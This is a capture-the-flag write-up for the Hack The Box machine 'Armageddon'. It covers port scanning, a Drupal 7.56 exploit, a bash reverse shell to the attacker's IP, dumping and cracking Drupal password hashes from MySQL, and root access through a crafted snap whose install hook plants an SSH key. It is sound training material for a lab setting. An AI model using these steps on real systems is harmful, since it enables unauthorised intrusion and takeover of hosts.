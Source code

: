 # Armageddon

## Overview

Starting off a shell is gained using an exploit in the drupal instance running on the web port. Using the exploit a shell is gained on the box. Using this shell access is gained into the MySQL instance running on the box. From there the users from the drupal installation are dumped. Cracking one of the passwords grants access to the machine through SSH. In order to gain root snapd is used to install a package as root. From there a root shell is gained on the box and the box is complete.

## Enumeration

To begin with nmap is used to scan all the ports on the machine.

```bash
sudo nmap -p- 10.129.106.237 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 16:58 EDT
Nmap scan report for 10.129.106.237
Host is up (0.090s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 180.66 seconds
```

There are only 2 different ports that are open on the box port 22 and port 80. In order to get more information another nmap scan is run.

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/info 10.129.106.237
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 17:03 EDT
Nmap scan report for 10.129.106.237
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
```

### Port 80

Based on the robots.txt and the title of the page it appears to be a drupal website running on the machine. There is a tool called ```droopescan``` the can enumerate information off a drupal website. Using this tool the version is found to be ```7.56```

```bash
droopescan scan drupal -u http://10.129.106.237/
[+] Plugins found:
    profile http://10.129.106.237/modules/profile/
    php http://10.129.106.237/modules/php/
    image http://10.129.106.237/modules/image/

[+] Themes found:
    seven http://10.129.106.237/themes/seven/
    garland http://10.129.106.237/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.129.106.237/CHANGELOG.txt

[+] Scan finished (0:01:58.315916 elapsed)
```

## Exploiting

Searching for this drupal version using searchsploit there are a couple exploits that come up. 

![Searchsploit](Machines\attachments\armageddon1.png)

Doing a quick google search turns up this [exploit](https://www.exploit-db.com/exploits/44449) in cases where metasploit is not wanted. Using this exploit we can upload a shell script that executes a reverse shell and run it. All we need to do is use curl to download the script. Then using the exploit which allows for code execution set it as executable and run it. The shell script simply executes a reverse shell by running ```bash shell.sh```.

### shell.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/80 0>&1
```

## Privilege Escalation

To begin with gaining root, a MySQL instance is located and the credentials for it were found in ```settings.php``` from the drupal installation. We can use file redirects to run commands through MySQL.  Here is an example of running a set of commands.  ```mysql -u {redacted} --password={redacted} < c.sql > out 2>&1```. This format to run commands was found [here](https://serverfault.com/questions/356567/mysql-not-to-print-selects-output-to-terminal). 

Here is an example of one of the command files.

```sql
use drupal;  
show tables;
```

Here is the file that dumped the users and their password hashes from the SQL database.

```sql
use drupal;  
select \* from users
```

Once we have the hases from the users table we can use john to crack the password. 

```bash
tc@ubuntu:/opt/john$ ./john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ~/htb/Armageddon/hash   
Using default input encoding: UTF-8  
Loaded 1 password hash (Drupal7, $S$ \[SHA512 256/256 AVX2 4x\])  
Cost 1 (iteration count) is 32768 for all loaded hashes  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
{redacted}           (?)  
1g 0:00:00:00 DONE (2021-04-01 21:25) 1.265g/s 293.6p/s 293.6c/s 293.6C/s tiffany..harley  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed
```

## User

Using the cracked password we can log into the compter with SSH. Once we are logged into the computer we find ourselves as the user with access to the user.txt file. From there running ```sudo -l``` we notice that we can install a package using snap as root.

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

In order to get root we need to create a new snap package that will give us access to the root user. 

I found a couple of different links that all helped in figuring out how to escalate privileges. [Here](https://www.exploit-db.com/exploits/46361) is an old exploit that pointed me to the hooks in a snap installation. This [link](https://snapcraft.io/docs/supported-snap-hooks) shows a list of all supported hooks in a snap package. There are 2 primary hooks that are of interest to us. The first is the ```install``` hook and the other is ```configure``` hook. Following along with the second link a snap package was setup and an install hook was used to write a ssh key for the root user. 

This picture shows where I put the install hook files. I am still not sure exactly which file was in the correct location but this file structure worked.

![File List](Machines\attachments\armageddon2.png)

The script that was used to give a root shell saved a SSH public key to the root's ```authorized_keys``` file. Here is a copy of the script that added my SSH public key.

```bash
#!/bin/bash

mkdir -p /root/.ssh/
echo "{Key redacted}" >> /root/.ssh/authorized_keys
chmod 644 /root/.ssh/authorized_keys
touch /dev/shm/made
```

To install snapcraft there is a yaml file that needs to be edited as well. Listing the snaps that were on the system showed that there was only ```base: core```. Therefore I had to make sure that the base my app was using matched what was already installed.

Here is a full copy of my snapcraft.yaml file.

```bash
name: hello # you probably want to 'snapcraft register <name>'
base: core # the base snap is the execution environment for this snap
version: '0.1' # just for humans, typically '1.2+git' or '1.3.2'
summary: Single-line elevator pitch for your amazing snap # 79 char long summary
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel # must be 'stable' to release into candidate/stable channels
confinement: devmode # use 'strict' once you have the right plugs and slots

parts:
  gnu-hello:
    source: http://10.10.14.25/hello-2.10.tar.gz
    plugin: autotools
```

This was another [link](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy) that helped me understand snap packages. 

In order to build the snap package you can use a tool called ```snapcraft```. In my case to build the snap package I had to make sure snapcraft used ```lxd```. The command to build the package is ```snapcraft --use-lxd``` which is run in the folder with the snapcraft.yaml file. 

With the package all setup and uploaded to the victim machine all we need to go is install the package.

```bash
sudo /usr/bin/snap install --devmode --dangerous /dev/shm/hello_0.1_amd64.snap
```

Once the package is installed we can login to the root user with our ssh key.
